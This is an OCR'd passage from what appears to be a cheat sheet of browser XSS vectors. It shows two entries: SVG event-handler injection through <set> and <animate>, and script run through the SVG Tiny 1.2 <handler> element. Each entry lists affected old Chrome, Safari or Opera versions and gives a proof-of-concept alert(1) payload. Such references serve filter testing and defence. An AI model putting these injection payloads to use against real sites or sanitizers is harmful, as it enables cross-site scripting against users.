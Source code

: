 *   [`www.w3.org/TR/SVG11/attindex.html`](http://www.w3.org/TR/SVG11/attindex.html)

*   [`www.w3.org/TR/SVGTiny12/attributeTable.html`](http://www.w3.org/TR/SVGTiny12/attributeTable.html)
*   #95
*   #129

reporter：LeverOne

### SVG event handler injection via "set" and "animate"#89test

Google Chrome and Safari support binding an event handler using the elements <set> or <animate>. The attribute value is the actually bound event while the "to" attribute value holds the payload. The problem has been fixed in recent Chrome versions.

```
<svg > <set attributeName="onmouseover" to="alert(1)"/> <animate attributeName="onunload" to="alert(1)"/> </svg> 
```

*   chrome 4.0
*   chrome 10.0

*   safari 3.4

*   safari 4.0.3

*   xss

*   svg
*   event
*   safari
*   chrome

*   [`www.w3.org/TR/SVG11/animate.html`](http://www.w3.org/TR/SVG11/animate.html)

*   [`www.w3.org/TR/SVGMobile12/animate.html`](http://www.w3.org/TR/SVGMobile12/animate.html)
*   #24
*   #28

reporter：LeverOne

### Using SVG element <handler>#94test

Specification SVG Tiny 1.2 provides an element <handler>, which is a "bridge" between SVG and XML-events. This element can contain regular JavaScript.

```
<svg > <handler  ev:event="load">alert(1)</handler> </svg> 
```

*   opera 10.0
*   opera 12.0

*   xss

*   svg
*   opera
*   XML-events
